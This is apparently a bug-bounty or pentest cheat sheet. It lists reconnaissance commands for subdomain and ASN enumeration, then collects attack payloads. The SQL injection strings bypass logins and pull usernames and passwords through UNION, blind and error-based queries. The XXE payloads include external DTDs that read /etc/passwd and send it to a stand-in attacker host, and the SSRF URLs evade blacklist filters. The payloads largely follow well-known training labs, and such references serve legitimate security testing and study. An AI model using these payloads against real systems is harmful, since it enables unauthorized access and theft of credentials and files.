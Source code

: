 ## [](#header-2) Enumeration / Recon
Burp Regex for Scope Control
```powershell
.*\.example\..*$
```
Find Emails
```powershell
https://phonebook.cz/
```
Reverse Whois Search
```powershell
https://www.whoxy.com/example.com
```
Find Domains Hosted On The Same IP Address
```powershell
https://api.hackertarget.com/reverseiplookup/?q=example.com
```
Pulling root domains
```powershell
Whoxy Reverse Whois API

cat asn.txt | tlsx -san -cn -silent -resp-only | grep -v "example.com"

amass intel -asn 3389

https://crt.sh
cat crt | jq -r '.[].common_name' | sed 's/\*\.\(.*\)/\1/' | rev | cut -d "." -f 1,2 | rev | grep -v " " | sort -u
```
Resolve IP Addresses In A Subnet Range
```powershell
subnet.py [subnet range] | httpx -probe -sc -cl -td -fr | grep "SUCCESS"
xargs -a asn -I {} bash -c 'subnet.py {} | httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"'
```
Extract A records for the given list of subdomains
```powershell
dnsx -l testsubs -silent -a -resp-only
```
Subdomain Enumeration Commands
```powershell
subfinder -d example.com -all
assetfinder -subs-only example.com
amass enum -d example.com -active
amass enum -d example.com -passive
```
Subdomain Bruteforce
```powershell
~/Desktop/tools/subbrute/subbrute.py example.com
~/Desktop/tools/subbrute/subbrute.py -s ~/Desktop/tools/massdns/lists/names.txt example.com
```
Subdomain Permutations
```powershell
cat domains.txt | dnsgen - | dnsx -silent
sed 's/A.*//' livesubs | sed 's/CN.*//' | sed 's/\..$//' > domains.resolved
```
HTTPX Command
```powershell
httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"
```
Find Important Keywords In A List Of Subdomains Or Urls
```powershell
isubs.sh file.txt
```
## [](#header-2) Sqli
SQL injection cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

Basic Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Basic Payload: `https://insecure-website.com/products?category=Gifts'--`

### Subverting Application Logic

Query: `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

Payload: `administrator'--`

### Retrieving data from other database tables

Query: `SELECT name, description FROM products WHERE category = 'Gifts'`

Payload: `' UNION SELECT username, password FROM users--`

### SQL injection UNION attacks

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

Determining the number of columns: `' ORDER BY 1--` or `' UNION SELECT NULL,NULL--` (note: number of nulls, order by = number of columns)

On Oracle, every SELECT query must use the FROM keyword and specify a valid table: `' UNION SELECT NULL FROM DUAL--`

conditional based blind SQL injection:`' union select null from users where username='administrator' and 1 = (SELECT CASE WHEN (length(password)=10) THEN 1/(SELECT 0) ELSE NULL END)--`

### Extracting sensitive data via verbose SQL error messages

Payload: `' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

## [](#header-2) XXE

### Exploiting XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///path/to/file"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Exploiting XXE to perform SSRF attacks

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
Bypass filtering and validation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
<stockCheck><productId>1</productId></stockCheck>
```

### Exploiting blind XXE to exfiltrate data out-of-band
malicious external DTD:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
XXE payload to the vulnerable application:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Exploiting blind XXE to retrieve data via error messages
malicious external DTD:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
XXE payload to the vulnerable application:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Exploiting blind XXE by repurposing a local DTD
if out-of-band interactions are blocked, invoke a DTD file that happens to exist on the local filesystem and repurpose it to redefine an existing entity in a way that triggers a parsing error containing sensitive data:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Locating an existing DTD file to repurpose:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
test a list of common DTD files to locate a file that is present

### XInclude attacks
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### XXE attacks via image upload
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
## [](#header-2) SSRF

### SSRF with blacklist-based input filters
```
http://127.1/%2561dmin
http://2130706433/%2561dmin
http://017700000001/%2561dmin
```
